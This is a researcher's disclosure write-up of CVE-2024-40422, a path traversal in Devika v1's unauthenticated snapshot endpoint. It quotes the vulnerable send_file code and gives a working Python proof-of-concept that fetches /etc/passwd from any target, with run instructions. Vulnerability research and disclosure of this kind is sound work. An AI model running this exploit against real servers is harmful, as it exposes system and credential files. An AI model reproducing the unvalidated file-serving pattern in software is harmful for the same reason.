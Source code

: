 ```yaml
---
title: Uncovering Path Traversal in Devika v1 A Deep Dive into CVE-2024-40422
category: EXPLOIT
date: 2025-01-25
---
```


# Uncovering Path Traversal in Devika v1: A Deep Dive into CVE-2024-40422

## A Researcher’s Insight

In the field of security research, applications often present fascinating challenges and sometimes reveal critical vulnerabilities. During my analysis of Devika v1, I uncovered a serious security flaw—CVE-2024-40422. This path traversal vulnerability highlighted how small oversights could lead to significant exposure risks. Here’s a detailed look into my research.

## The Discovery

While auditing the Devika v1 application, my focus landed on the `/api/get-browser-snapshot` endpoint. This API endpoint accepted a `snapshot_path` parameter, which seemed to control which file was being served. Testing revealed that this parameter lacked proper validation, allowing traversal of the directory structure to access restricted files.

Additionally, I discovered that the application did not implement any authentication mechanism. This absence meant that any user, authenticated or not, could directly interact with the vulnerable endpoint, significantly amplifying the risk.

The vulnerability itself was stark and impactful. By manipulating the `snapshot_path` input, I could access files like `/etc/passwd`, demonstrating a clear security issue.

## Breaking Down the Vulnerable Code

The vulnerability was rooted in this snippet of code:

**File:** [devika.py](https://github.com/stitionai/devika/blob/main/devika.py)  
**Lines:** 123-127  

```python
@app.route("/api/get-browser-snapshot", methods=["GET"])
@route_logger(logger)
def browser_snapshot():
    snapshot_path = request.args.get("snapshot_path")
    return send_file(snapshot_path, as_attachment=True)
```

Here, the `send_file` function directly consumed the user-provided `snapshot_path` without any validation or sanitization. This oversight enabled an attacker to provide inputs such as `../../../etc/passwd` to access sensitive system files.

## Reproducing the Issue

As part of my research, I created a Python script to demonstrate the exploit and validate the issue. Below is the proof of concept (PoC):

### Proof of Concept

```python
#!/usr/bin/python

import argparse
import requests

def exploit(target_url):
    url = f'http://{target_url}/api/get-browser-snapshot'
    params = {
        'snapshot_path': '../../../../etc/passwd'
    }

    response = requests.get(url, params=params)
    print(response.text)

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description='Explore the directory traversal bug.')
    parser.add_argument('-t', '--target', help='Enter the target URL (e.g., target.com)', required=True)
    args = parser.parse_args()

    exploit(args.target)
```

### Running the Script

1. Save the script as `exploit.py`.
2. Execute it with the target URL:
   ```
   python exploit.py -t target.com
   ```
3. The script retrieves the content of the `etc/passwd` file, effectively showcasing the issue.

This PoC highlights how an attacker could exploit the flaw to access arbitrary files on the server.

## Why This Matters

This vulnerability poses a significant threat:

- **Sensitive Data Exposure:** It allows attackers to read sensitive files such as configuration files or credentials.
- **Privilege Escalation Risks:** With access to critical files, an attacker could potentially escalate their privileges or further exploit the system.
- **Unrestricted Access:** The absence of authentication mechanisms exacerbates the severity, allowing anyone to exploit the issue without restriction.

### Severity
CVE-2024-40422 is rated as critical with a CVSS score of 9.1. The impact underscores the necessity of secure coding practices, particularly around file handling and access control.

## Final Thoughts

This research underscores the importance of thorough security reviews and rigorous input validation in software development. The Devika v1 vulnerability serves as a cautionary tale and a learning opportunity for developers and researchers alike.

For detailed information, check out the [GitHub advisory](https://github.com/advisories/GHSA-39m5-v8xj-6c9r). If you have insights or questions, feel free to connect with me on [X/Twitter](https://x.com/alpernae). Let’s make the digital world safer, one vulnerability at a time.
